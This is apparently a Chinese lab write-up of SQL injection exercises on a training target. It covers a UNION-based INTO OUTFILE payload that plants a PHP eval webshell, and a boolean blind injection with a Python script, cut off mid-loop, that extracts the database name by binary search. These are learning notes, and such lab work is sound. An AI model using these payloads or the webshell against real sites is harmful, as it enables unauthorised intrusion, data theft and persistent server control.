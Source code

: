 首先通过`?id=1')) order by 4%23`判断字段数为3

##### 查看是否有写入权限

本关有提示使用file权限向服务器写入文件，首先查看是否有写入权限：

输入`?id=1')) and (select count(*) from mysql.user)>0%23`，正常回显，说明有写入权限。

然后正常的步骤应该是：

`?id=-1')) union select 1,2,3 into outfile "xxxx\\try.php" %23`

`?id=-1')) union select 1,2,"<?php @eval($_POST['sql']);?>" into outfile "xxxx\\try1.php" %23`（写入webshell）

但是因为没有在kali靶机上写成功，没有自己实现

教程：https://www.jianshu.com/p/7b9256de20d1



## 实验八	布尔型单引号GET盲注

当输入`id=1`时有回显：You are in......

但是输入`id=1'`时没有回显，再输入`id=1' and 1=1 %23`和`id=1' and 1=2 %23`进行验证，前者有回显后者没有。确定了是字符型注入。

手工注入过程和实验五相同。

网上找到了py脚本：

```python
from urllib import request
from urllib import parse
import re

url = "http://10.12.202.251:21041/Less-8/?id="

# 1 查数据库

# def length():

database_length = 0
while True:
    param = "1' and length(database()) =" + str(database_length) + " #"
    response = request.urlopen(url + parse.quote(param)).read().decode()

    if re.search("You are in", response):
        # print("DATABASE_LENGTH:"+str(database_length))
        
        break
    else:
        database_length += 1

        
# 尝试二分法扫描

db_name = ""
for l in range(database_length):
    a, b = 64, 64
    while True:
        b = int(b / 2)
        param = "1' and ascii(substr(database()," + str(l + 1) + "))<" + str(a) + "#"
        response = request.urlopen(url + parse.quote(param)).read().decode()
        if re.search("You are in", response):
            a -= b
        else:
            param = "1' and ascii(substr(database()," + str(l + 1) + ")) =" + str(a) + " #"
            response = request.urlopen(url + parse.quote(param)).read().decode()
```
